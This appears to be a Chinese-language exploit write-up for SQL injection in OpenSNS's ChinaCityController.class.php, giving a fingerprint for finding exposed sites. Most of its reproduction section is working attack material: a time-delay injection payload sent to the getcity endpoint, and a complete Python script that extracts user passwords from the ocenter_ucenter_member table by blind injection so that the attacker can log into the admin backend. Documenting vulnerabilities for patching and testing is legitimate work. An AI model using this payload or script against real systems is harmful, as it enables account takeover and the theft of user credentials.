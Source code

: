 # OpenSNS ChinaCityController.class.php SQL注入漏洞

## 漏洞描述

OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc.png)

存在漏洞的文件为`Addons/ChinaCity/Controller/ChinaCityController.class.php`

![img](../../../.vuepress/public/img/1634530581898-96bfb012-9b06-4000-8688-3f60e59fe5af.png)

其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句

![img](../../../.vuepress/public/img/1634530661937-f8552b8b-a5c2-4633-9cef-e20b31154085.png)

通过构造请求闭合SQL语句，造成SQL注入

```php
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```

![img](../../../.vuepress/public/img/1634531129827-a6c0bd01-e6e8-41a8-a7aa-0d0349843d9e.png)

通过二分法延时注入可以获取用户账号密码，登录后台

```php
import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

![img](../../../.vuepress/public/img/1634531377138-0fc38dc3-684c-41d1-a3bb-974274f025fd.png)